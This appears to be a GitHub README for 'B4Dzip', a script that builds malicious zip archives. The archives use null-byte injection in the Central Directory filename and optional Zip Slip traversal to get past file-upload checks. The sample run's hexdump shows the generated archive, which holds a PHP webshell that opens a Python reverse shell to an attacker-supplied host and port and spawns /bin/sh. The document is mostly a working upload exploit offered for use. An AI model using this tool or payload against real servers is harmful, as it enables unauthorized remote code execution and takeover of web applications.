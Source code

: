 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection. The vulnerability
occurs due to an incorrect validation of the Central Directory Header filename.
<br>
For more information about ZIP file format visit [the Wiki](https://en.wikipedia.org/wiki/ZIP_(file_format).

<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example below shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      236  2023-08-30 22:43   cc7f82eef39c4d12.php
---------                     -------
      236                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 27 58  |PK........i..W'X|
00000010  57 17 ec 00 00 00 ec 00  00 00 14 00 00 00 63 63  |W.............cc|
00000020  37 66 38 32 65 65 66 33  39 63 34 64 31 32 2e 70  |7f82eef39c4d12.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 22  |hp<?php system("|
00000040  65 78 70 6f 72 74 20 52  48 4f 53 54 3d 27 3c 72  |export RHOST='<r|
00000050  68 6f 73 74 3e 27 3b 65  78 70 6f 72 74 20 52 50  |host>';export RP|
00000060  4f 52 54 3d 3c 72 70 6f  72 74 3e 3b 70 79 74 68  |ORT=<rport>;pyth|
00000070  6f 6e 33 20 2d 63 20 5c  22 69 6d 70 6f 72 74 20  |on3 -c \"import |
00000080  73 6f 63 6b 65 74 2c 6f  73 2c 70 74 79 3b 73 3d  |socket,os,pty;s=|
00000090  73 6f 63 6b 65 74 2e 73  6f 63 6b 65 74 28 29 3b  |socket.socket();|
000000a0  73 2e 63 6f 6e 6e 65 63  74 28 28 6f 73 2e 67 65  |s.connect((os.ge|
000000b0  74 65 6e 76 28 27 52 48  4f 53 54 27 29 2c 69 6e  |tenv('RHOST'),in|
000000c0  74 28 6f 73 2e 67 65 74  65 6e 76 28 27 52 50 4f  |t(os.getenv('RPO|
000000d0  52 54 27 29 29 29 29 3b  5b 6f 73 2e 64 75 70 32  |RT'))));[os.dup2|
000000e0  28 73 2e 66 69 6c 65 6e  6f 28 29 2c 66 64 29 20  |(s.fileno(),fd) |
000000f0  66 6f 72 20 66 64 20 69  6e 20 28 30 2c 31 2c 32  |for fd in (0,1,2|
00000100  29 5d 3b 70 74 79 2e 73  70 61 77 6e 28 27 2f 62  |)];pty.spawn('/b|
00000110  69 6e 2f 73 68 27 29 5c  22 22 29 3b 3f 3e 50 4b  |in/sh')\"");?>PK|
00000120  01 02 1e 03 0a 00 00 00  00 00 69 b5 1e 57 27 58  |..........i..W'X|
00000130  57 17 ec 00 00 00 ec 00  00 00 19 00 00 00 00 00  |W...............|
00000140  00 00 00 00 00 00 a4 81  00 00 00 00 63 63 37 66  |............cc7f|
00000150  38 32 65 65 66 33 39 63  34 64 31 32 2e 70 68 70  |82eef39c4d12.php|
00000160  00 2e 70 64 66 50 4b 05  06 00 00 00 00 01 00 01  |..pdfPK.........|
00000170  00 47 00 00 00 1e 01 00  00 00 00                 |.G.........|
0000017b
```


## Meta

Diego Muñoz – [LinkedIn](linkedin.com/in/diegomuñozm)

Distributed under the MIT License. Go to ``LICENSE`` for more information.

[See license](https://github.com/0xCronos/B4Dzip/blob/master/LICENSE)

